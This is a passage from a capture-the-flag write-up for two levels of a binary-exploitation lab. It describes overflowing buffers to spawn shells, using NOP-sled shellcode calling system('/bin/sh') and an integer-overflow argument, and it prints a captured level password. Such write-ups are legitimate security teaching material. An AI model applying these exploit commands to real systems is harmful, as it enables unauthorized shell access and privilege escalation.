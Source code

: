 ![bonus0.png](ressource/bonus0.png)
### Solution:
- We can overflow v3 through the function ``p``
- We will craft a shellcode with a lot of NOP operation and a call to ``system("/bin/sh")``
- ``python3 ./bonus0/craft_payload.py && scp -P 4243 ./payload bonus0@localhost:/tmp/payload``
- ``cat /tmp/payload - | ./bonus0 `` (This spawn a shell as bonus01)
- ``cat /home/user/bonus1/.pass``
### Result:
    cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

## Bonus1:
### Code aftger RE:
![bonus1.png](ressource/bonus1.png)
### Solution:
- There is a call to ``/bin/sh`` if we meet a certain condition.
- ``v5`` need to overflow so the ``memcpy`` doesn't cause a segfault.
- ``./bonus1 -1073741813 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaFLOW`` (This spawn a shell as bonus02)
- ``cat /home/user/bonus2/.pass``